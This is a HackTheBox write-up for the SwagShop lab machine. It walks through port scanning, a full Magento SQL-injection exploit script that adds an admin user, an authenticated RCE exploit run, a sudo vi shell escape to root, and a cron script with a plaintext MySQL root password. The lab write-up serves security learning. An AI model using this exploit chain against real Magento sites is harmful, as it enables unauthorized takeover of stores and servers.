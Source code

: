 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [SwagShop](https://app.hackthebox.com/machines/SwagShop)

> [!tip]- Spoiler Summary
> This machine is hosting a web commerce site with an SQLi vulnerability that allows an attacker to add an admin-level user, which enables an RCE exploit. Privilege escalation is trivial with `vi`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Wed Aug  7 13:59:01 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.10.140)
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.140], RedirectLocation[http://swagshop.htb/]
http://swagshop.htb/ [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.10.10.140], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

## RCE

Here's the [exploit for the SQLi to get an admin user](https://www.exploit-db.com/exploits/37977) on the web app:

```python
import requests
import base64
import sys

target = sys.argv[1]

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

# For demo purposes, I use the same attack as is being used in the wild
SQLQUERY="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

# Put the nice readable queries into one line,
# and insert the username:password combinination
query = SQLQUERY.replace("\n", "").format(username="ypwq", password="123")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds ypwq:123".format(target)
else:
    print "DID NOT WORK"
```

```console
$ python2 ./x.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

There's an [authenticated RCE available for Magento available from exploit-db](https://www.exploit-db.com/exploits/37811), but I had some problems getting the `mechanize` module working correctly with Python2.7. There's an updated version written for Python3 available at <https://github.com/Hackhoven/Magento-RCE.git>.

```console
$ python3 ./magento-rce-exploit.py http://swagshop.htb/index.php/admin/ 'id'
Form name: None
Control name: form_key
Control name: login[username]
Control name: dummy
Control name: login[password]
Control name: None
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The user flag is readable in the home directory of user `haris`:

```git
www-data@swagshop:/var/www/html$ ls -la /home/haris/user.txt
-rw-r--r-- 1 haris haris 33 Aug  9 10:59 /home/haris/user.txt
```

## PE

```console
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Escaping to a shell from `vi` is trivial with: `:!/bin/sh`

## Post

Life after `root`.

```console
# crontab -l
...
# m h  dom mon dow   command
@reboot /root/.script/update.sh
# cat /root/.script/update.sh
#!/bin/bash
sleep 10
new_date=`date +'%F %T'`
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -Bse "use swagshop; update sales_flat_order set created_at = '$new_date' where state = 'processing';"
```

## Open Questions

I lost a lot of time trying to get the older `python2` exploit working. I was able to install the correct module (`mechanize`) using `python2 -m pip install …` but it still didn't work, for reasons I never got to the bottom of.
